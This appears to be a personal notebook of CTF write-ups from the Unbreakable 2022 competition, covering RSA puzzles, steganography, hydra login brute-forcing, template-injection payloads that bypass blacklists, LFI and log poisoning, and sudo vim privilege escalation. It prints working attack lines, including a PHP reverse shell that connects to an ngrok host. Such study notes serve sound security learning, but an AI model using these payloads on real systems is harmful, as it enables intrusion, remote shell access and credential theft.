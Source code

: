`Bruteforce` our way through the login page with the rockyou.txt 
wordlist bruteforce.


    hydra -l bob -P /usr/share/wordlists/rockyou.txt 34.89.210.219 -s 30203 http-form-post "/index.php:username=^USER^&password=^PASS^:Invalid username or password"  -V

The request hydra uses is of the type: `"/path:post_request_data:Invalid response text"`
We substitute where the user and the pass would go with `^USER^`and `^PASS^`


We find password bob:cheerleader -> we get message not the right privileges, Try Harder!

We go for the user admin this time
we find the password admin:precious1 -> and we get the flag: CTF{aa4e966537c108ecd32d64096a6666ba96f15ec147a2aaec24d5ae26b7ad6e14}

-------------------------------------------------------------



### VERY GOOD RESOURCES FOR FINDING ENCRYPTION ALGORITHMS: 
- `https://www.dcode.fr/cipher-identifier`
- `cyberchef`

Also look for good writeups here: 

`https://mstefanc.com/2022/05/08/unbreakable-ctf-2022-individual-writeups/`

-----------------------------------------------------

### UNBREAKABLE 2022 TEAMS COMPETITON

1. RSA-POP-QUIZ

p = 17
q = 23
e = 7

n = pq = 391
theta(n) = 16*22 = 352

=> d = 151

-----------------
e = 65537
phi(n) = 7921872076
c = 7326956863
p = ?

    The function phi(n) is called the EULER'S TOTIENT. This function can be found in 'from sympy.ntheory.factor_ import totient' package in python

------------------------

### Interesting RSA facts:
 - RSA = Rivest-Shamir-Adleman
 - RSA was developed and publicly shown in 1977
 - Acording to NIST, the RSA key should be 2048 bits long
 - RSA is crackable, but veeeery time consuming
 - `www.factordb.com` is the place to go to get the prime factors of a number
 - `www.dcode.fr` is the best encryption tool website

------------------------------------
### dont-chat-too-much-about-RSA

But the public key is the parameter N = p*q
p+q = x

p = x - q
N = (x-q)*q = xq - q^2


Here we extracted the hidden data with steghide, then recovered this text: 
THISwasTOOiziECB
-> this has 16 bytes, so we figure it might be AES with ECB mode
We decode the secret conversation using Cyberchef, then we get the sum of p+q in there. From the public key we get the values of N, e using dcode.fr.

From here we find p and q uzing `z3 solver!!!`

read data from secret, base64 -d, the hexdump -d to get integer variable, or just do int(data, 16) in python.
After finding those, we take the text in secret, which is in base64 and put all the variables into RSA decrypt from dcode.fr and we get the flag 

CTF{kn0wiNG_7H3_5um_0f_pRIM35_i5_r3ALLy_DaNg3r0u2}.

### GREAT WEBSITE FOR STEGANOGRAPHY CHALLENGES (Images mostly)

`https://aperisolve.fr/`
!!!!!!


---------------------------------------------------
    ${self.module.cache.util.os.system(chr(108)%2Bchr(115))}
    99 97 116 32 39 102 108 97 103 46 116 120 116 39


You can bypass blacklists by using chr() and url encoded chars

    ${self.module.cache.util.os.popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(42)).read()}


696d706f7274206f730a783d6f732e706f70656e286964292e7265616428290a

----------------------------------------------------------------------

TO solve `Linux problem escalation`, we first need to `connect a reverse shell to our machine`. We use that with ngrok, since we know the web interface uses php, we leverage a php command. 


--------------------------------------------------------------------

### FOR OSINT challenges

- If something was deleted from the internet and you have to find it, go to `WayBackMachine (htts://web.archive.org/)` and you shall find everything there. Look for the keywords, search them up on google.

 - For extracting text from an image, you can use an OCR tool.

`https://shellgenerator.github.io/ -- generate shells`

    php -r '$sock=fsockopen("2.tcp.eu.ngrok.io",18809);exec("/bin/sh -i <&3 >&3 2>&3");'

### You start your 'ngrok tcp 1234', and then you start a ncat -nlvp 1234, where YOU WILL RECEIVE THE CONNECTION!!!

1. From there, we find the first flag by cracking the secret shadow.bak file.
2. Then first we do sudo -l to find that user2 can perform vim with sudo privileges, and we run it with 'sudo -u user3 /usr/bin/vim'!!!
3. From there we run :!/bin/bash -> and we are user3!!!

-------------------------------------------------------------

### No-external-communication
#### Solve : curl  http://34.89.210.219:30051/router.php?page=php://filter/convert.base64-encode/resource=flag.php | base64 -d

- This is a `local file inclusion attack`, where we could access ../../../etc/passwd, also found flag.php, but since it is a php file that executes, it just displays 'try harder', which denotes that we have to extract the contents of the file by encoding them.

- The LFI vulnerability can be also exploited using `LOG POISONING`
- Once you identify that you can do `directory traversal`, identify that the web server running is Apache, through a quick google search you identify that the `ACCESS LOG FILES of apache are in [ var/log/apache2/access.log ]`.
- If you go to that address, you can see all the GET requests, the paths and the User-Agent information

- Usually, in **LFI and Log Poisoning vulnerabilities**, the `User-Agent` is the field that will be `poisoned/injected with php code.`
We will inject php code into User-Agent and view the output of this request in the access log.

- First, we should see if it is injectable, and if it is `what functions are disabled on it`.
    
    User Agent: `<?php echo phpinfo(); ?>`

 - Once we send the request, we look at disabled functions, and see that shell_exec is enabled in this case and we can execute arbitary shell commands! we do ls, cat flag.php and checkout the page source for the access logs since the flag is usually in the comments of the code.
